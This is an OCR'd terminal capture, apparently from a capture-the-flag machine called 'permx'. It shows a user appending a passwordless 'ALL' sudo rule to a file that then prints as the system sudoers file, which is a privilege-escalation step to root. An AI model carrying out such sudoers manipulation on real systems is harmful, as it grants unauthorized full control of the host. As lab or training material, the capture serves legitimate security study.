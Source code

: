 ```
-rw-r--r-- 1 mtz  mtz  3771 Jan  6  2022 .bashrc
drwx------ 2 mtz  mtz  4096 May 31  2024 .cache
lrwxrwxrwx 1 root root    9 Jan 20  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   807 Jan  6  2022 .profile
drwx------ 2 mtz  mtz  4096 Jan 20  2024 .ssh
-rw-r----- 1 root mtz    33 Sep 11 06:53 user.txt
mtz@permx:~$ echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/abcd
mtz@permx:~$ cat abcd 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults	use_pty

# This preserves proxy settings from user environments of root
# equivalent users (group sudo)
#Defaults:%sudo env_keep += "http_proxy https_proxy ftp_proxy all_proxy no_proxy"

# This allows running arbitrary commands, but so does ALL, and it means
# different sudoers have their choice of editor respected.
#Defaults:%sudo env_keep += "EDITOR"

# Completely harmless preservation of a user preference.
#Defaults:%sudo env_keep += "GREP_COLOR"

# While you shouldn't normally run git as root, you need to with etckeeper
#Defaults:%sudo env_keep += "GIT_AUTHOR_* GIT_COMMITTER_*"

# Per-user preferences; root won't have sensible values for them.
#Defaults:%sudo env_keep += "EMAIL DEBEMAIL DEBFULLNAME"

# "sudo scp" or "sudo rsync" should be able to use your SSH agent.
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"

# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
```
